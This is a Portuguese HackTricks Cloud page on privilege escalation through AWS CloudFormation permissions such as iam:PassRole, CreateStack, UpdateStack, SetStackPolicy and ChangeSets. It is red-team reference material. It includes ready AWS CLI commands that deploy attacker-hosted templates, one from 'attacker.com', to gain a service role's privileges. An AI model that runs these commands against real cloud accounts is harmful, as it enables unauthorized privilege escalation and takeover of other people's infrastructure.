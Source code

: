 # AWS - Cloudformation Privesc

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## cloudformation

Para mais informações sobre cloudformation, confira:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Um atacante com essas permissões **pode escalar privilégios** criando uma **pilha CloudFormation** com um template personalizado, hospedado em seu servidor, para **executar ações sob as permissões de um papel especificado:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Na página seguinte, você tem um **exemplo de exploração** com a permissão adicional **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Impacto Potencial:** Privesc para o papel de serviço cloudformation especificado.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Neste caso, você pode **abusar de uma pilha cloudformation existente** para atualizá-la e escalar privilégios como no cenário anterior:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
A permissão `cloudformation:SetStackPolicy` pode ser usada para **dar a si mesmo a permissão `UpdateStack`** sobre uma pilha e realizar o ataque.

**Impacto Potencial:** Privesc para o papel de serviço do cloudformation especificado.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Se você tiver essa permissão, mas **sem `iam:PassRole`**, ainda pode **atualizar as pilhas** usadas e abusar dos **Papéis IAM que já estão anexados**. Verifique a seção anterior para um exemplo de exploração (apenas não indique nenhum papel na atualização).

A permissão `cloudformation:SetStackPolicy` pode ser usada para **dar a si mesmo a permissão `UpdateStack`** sobre uma pilha e realizar o ataque.

**Impacto Potencial:** Privesc para o papel de serviço do cloudformation já anexado.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Um atacante com permissões para **passar um papel e criar & executar um ChangeSet** pode **criar/atualizar uma nova pilha do cloudformation e abusar dos papéis de serviço do cloudformation** assim como com o CreateStack ou UpdateStack.

A seguinte exploração é uma **variação da**[ **CreateStack one**](./#iam-passrole-cloudformation-createstack) usando as **permissões ChangeSet** para criar uma pilha.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
A permissão `cloudformation:SetStackPolicy` pode ser usada para **dar a si mesmo permissões de `ChangeSet`** sobre uma pilha e realizar o ataque.

**Impacto Potencial:** Privesc para funções de serviço do cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Isso é como o método anterior sem passar **funções IAM**, então você pode apenas **abusar das já anexadas**, apenas modifique o parâmetro:
```
--change-set-type UPDATE
```
**Impacto Potencial:** Privesc para o papel de serviço do cloudformation já anexado.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Um atacante poderia abusar dessas permissões para criar/atualizar StackSets para abusar de papéis de cloudformation arbitrários.

**Impacto Potencial:** Privesc para papéis de serviço do cloudformation.

### `cloudformation:UpdateStackSet`

Um atacante poderia abusar dessa permissão sem a permissão passRole para atualizar StackSets e abusar dos papéis de cloudformation anexados.

**Impacto Potencial:** Privesc para os papéis de cloudformation anexados.

## Referências

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

